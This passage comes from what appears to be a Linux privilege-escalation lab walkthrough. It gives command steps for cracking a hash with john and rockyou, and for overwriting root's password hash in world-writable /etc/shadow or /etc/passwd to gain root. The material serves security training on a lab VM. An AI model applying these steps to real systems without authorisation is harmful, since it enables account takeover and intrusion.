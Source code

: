 ```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

4. Switch to the root user, using the cracked password:

```
su root
```

## Weak File Permissions - Writable /etc/shadow 

The /etc/shadow file contains user password hashes and is usually readable only by the root user.

1. Note that the /etc/shadow file on the VM is world-writable:

```
ls -l /etc/shadow
```

2. Generate a new password hash with a password of your choice:

```
mkpasswd -m sha-512 newpasswordhere
```

3. Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.

4. Switch to the root user, using the new password:

```
su root
```

## Weak File Permissions - Writable /etc/passwd 

The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the /etc/passwd file contained user password hashes, and some versions of Linux will still allow password hashes to be stored there.

1. Note that the /etc/passwd file is world-writable:

```
ls -l /etc/passwd
```
2. Generate a new password hash with a password of your choice:

```
openssl passwd newpasswordhere
```

3. Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").

4. Switch to the root user, using the new password:

```
su root
```
